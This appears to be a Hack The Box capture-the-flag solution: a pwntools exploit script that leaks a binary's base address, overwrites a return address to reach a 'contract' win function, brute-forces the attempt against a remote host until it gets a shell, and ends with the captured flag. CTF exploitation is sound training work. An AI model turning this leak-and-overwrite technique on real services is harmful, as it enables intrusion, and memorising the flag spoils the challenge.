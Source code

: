 ```python
############### main exploit    ###############

'''p.send("a"*0x10)
p.send("b"*0x100)
p.sendline("18")
p.send(b"c"*0x10)
p.recvuntil("cccccccccccccccc")
exe.address=u64(p.recv(6).ljust(8,b"\x00"))-0x1b50
log.info(hex(exe.address))
p.sendline("4")
p.recvuntil("And what are you good at: ")
#p.sendline(b"x"*0xf0)
win=exe.symbols["contract"]
p.send(b"1"*0x20) ### we need the +0x1f
debug()
p.sendline(p8(0xd0-1+8)+p64(win))
#p.sendline(b"1"*0x20+p8(0xd0-1+8)+p64(win)*10) ### we need the +0x1f # 0x5f works

p.interactive()'''



while True:
        p.close()
        #p=process([exe.path])
        p=remote(host,port)
        try:
                p.send("a"*0x10)
                p.send("b"*0x100)
                p.sendline("18")
                p.send(b"c"*0x10)
                p.recvuntil("cccccccccccccccc")
                exe.address=u64(p.recv(6).ljust(8,b"\x00"))-0x1b50
                log.info(hex(exe.address))
                #debug()
                p.sendline("4")
                p.recvuntil("And what are you good at: ")
                #p.sendline(b"x"*0xf0)
                win=exe.symbols["contract"]
                p.sendline(b"1"*0x20+p8(0x5f)+p64(win)*10) ### we need the +0x1f
                #p.sendline(b"b"*5+p64(win)*(0xf0//8))
                p.sendline("ls")
                p.interactive()
                #print(p.recv(timeout=1))
        except KeyboardInterrupt:
                print("gg")
        except:
                pass
```

_HTB{4_l1ttl3_bf_41nt_b4d_23d1dfc7e980c6b842cf75a6495478c8}_

---